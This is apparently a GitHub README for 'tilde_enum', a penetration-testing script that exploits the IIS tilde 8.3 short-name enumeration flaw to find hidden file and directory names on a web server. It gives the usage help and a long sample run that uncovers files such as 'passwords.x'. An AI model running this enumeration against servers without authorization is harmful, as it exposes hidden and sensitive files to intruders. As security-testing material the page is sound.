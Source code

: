 tilde_enum
==========

Takes a URL and then exploits the IIS tilde 8.3 enumeration vuln and tries to get you full file names.

You feed this script URL and also a word list of potential file names. The script will look up the file roots in your word list and then try them with appropriate extensions.

The [fuzzdb](https://code.google.com/p/fuzzdb/) word lists are pretty good. We sometimes use the https://code.google.com/p/fuzzdb/source/browse/trunk/discovery/PredictableRes/raft-small-words-lowercase.txt (or large or medium) for this work.

There are known bugs that we are working to resolve in this version (it is 93+% good). Looking for feedback and suggestions.


Help
====
<pre>$  ./tilde_enum.py -h
usage: tilde_enum.py [-h] [-b] [-f] [-u URL] [-v] wordlist

Expands the file names found from the tilde enumeration vuln

positional arguments:
  wordlist    the wordlist file

optional arguments:
  -h, --help  show this help message and exit
  -b          brute force backup extension, extensions
  -f          force testing of the server even if the headers do not report it
              as an IIS system
  -u URL      URL to scan
  -v          verbose output
</pre>


Sample Output
======
<pre>
$  ./tilde_enum.py -u http://iis /pentest/fuzzdb/discovery/PredictableRes/raft-large-words-lowercase.txt
[-]  Testing with dummy file request http://iis/7yC9fvCEK3.htm
[-]	URLNotThere -> HTTP Code: 404, Response Length: 1635
[-]  Testing with user-submitted http://iis
[-]	URLUser -> HTTP Code: 200, Response Length: 1433
[+]  The server is reporting that it is IIS (Microsoft-IIS/6.0).
[+]  The server is vulnerable to the tilde enumeration vulnerability.
[+]  Found a new directory: aspnet
[+]  Found a new directory: copyof
[+]  Found file:  dqa5e5 . htm
[+]  Found file:  eee . htm
[+]  Found file:  parame . xml
[+]  Found file:  passwo . x
[+]  Found file:  postin . htm
[+]  Found file:  server . ht
[+]  Found file:  2ac185 . htm
[+]  Found file:  321 . xls
[+]  Found file:  4321 . htm
[+]  Found file:  654321 . old
[+]  Found file:  765432 . htm
[+]  Found file:  876543 . jpg
[+]  Found file:  987654 . abc
[+]  Found file:  _vti_i . htm
[+]  Found a new directory: _vti_s
[-]  Finished doing the 8.3 enumeration for http://iis.
[-]  Now starting the word guessing using word list calls
[+]  Searching for dqa5e5 in word list
[+]  Searching for htm in extension word list
[!]  File name (eee) too short to look up in word list. We will use it to bruteforce.
[+]  Searching for htm in extension word list
[*]  Found one! (Size 8) http://iis/eee.html
[+]  Searching for parame in word list
[+]  Searching for xml in extension word list
[*]  Found one! (Size 1307) http://iis/parameters.xml
[*]  Found one! (Size 1307) http://iis/parameter.xml
[+]  Searching for passwo in word list
[!]  Extension (x) too short to look up in word list. We will use it to bruteforce.
[*]  Found one! (Size 198) http://iis/passwords.x
[+]  Searching for postin in word list
[+]  Searching for htm in extension word list
[*]  Found one! (Size 2449) http://iis/postinfo.html
[+]  Searching for server in word list
[!]  Extension (ht) too short to look up in word list. We will use it to bruteforce.
[+]  Searching for 2ac185 in word list
[+]  Searching for htm in extension word list
[!]  File name (321) too short to look up in word list. We will use it to bruteforce.
[+]  Searching for xls in extension word list
[*]  Found one! (Size 227) http://iis/321.xlsx
[!]  File name (4321) too short to look up in word list. We will use it to bruteforce.
[+]  Searching for htm in extension word list
[*]  Found one! (Size 227) http://iis/4321.html
[+]  Searching for 654321 in word list
[+]  Searching for old in extension word list
[+]  Searching for 765432 in word list
[+]  Searching for htm in extension word list
[+]  Searching for 876543 in word list
[+]  Searching for jpg in extension word list
[+]  Searching for 987654 in word list
[+]  Searching for abc in extension word list
[+]  Searching for _vti_i in word list
[+]  Searching for htm in extension word list
[*]  Found one! (Size 1754) http://iis/_vti_inf.html
[?]  URL: (Size 218) http://iis/aspnet_client/ with Response: HTTP Error 403: Forbidden 

---------- FINAL OUTPUT ------------------------------
[*]  We found files for you to look at
[*]      http://iis/321.xlsx  - Size 227
[*]      http://iis/4321.html  - Size 227
[*]      http://iis/_vti_inf.html  - Size 1754
[*]      http://iis/eee.html  - Size 8
[*]      http://iis/parameter.xml  - Size 1307
[*]      http://iis/parameters.xml  - Size 1307
[*]      http://iis/passwords.x  - Size 198
[*]      http://iis/postinfo.html  - Size 2449

[*]  Here are all the 8.3 names we found
[*]  If any of these are 6 chars and look like they should work,
      try the file name with 1 or 2 chars instead of all of them.
[*]      http://iis/2ac185~1.htm
[*]      http://iis/321~1.xls
[*]      http://iis/4321~1.htm
[*]      http://iis/654321~1.old
[*]      http://iis/765432~1.htm
[*]      http://iis/876543~1.jpg
[*]      http://iis/987654~1.abc
[*]      http://iis/_vti_i~1.htm
[*]      http://iis/dqa5e5~1.htm
[*]      http://iis/eee~1.htm
[*]      http://iis/parame~1.xml
[*]      http://iis/passwo~1.x
[*]      http://iis/postin~1.htm
[*]      http://iis/server~1.ht

[*]  We found directory URLs you should check out. They were not HTTP response code 200s.
[?]      HTTP Resp 403 - http://iis/aspnet_client/  - Size 218
</pre>

